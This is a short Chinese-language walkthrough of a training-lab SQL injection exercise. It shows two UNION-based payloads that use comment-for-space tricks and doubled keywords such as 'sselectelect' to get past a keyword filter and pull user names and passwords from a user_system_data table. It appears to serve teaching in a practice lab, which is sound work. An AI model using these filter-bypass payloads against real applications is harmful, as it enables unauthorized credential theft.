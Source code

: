 1. 直接注入，不仅过滤空格，还过过滤sql关键字  
![alt text](image-5.png)  

2. 使用下面的语句注入，就是上一页的答案  
```
d'/**/union/**/select/**/userid,user_name,password,password,password,password,userid/**/from/**/user_system_data;--/**/  
```
![alt text](image-6.png)  

发现过滤掉了select，from等关键字  

3. 有一种方法是重组字符串，比如要插入select，那么可以输入sselectelect，过滤掉中间的select后，剩下的任然是select  

4. 下面是注入语句  
```  
d'/**/union/**/sselectelect/**/userid,user_name,password,password,password,password,userid/**/ffromrom/**/user_system_data;--/**/ 
```  
![alt text](image-7.png)  
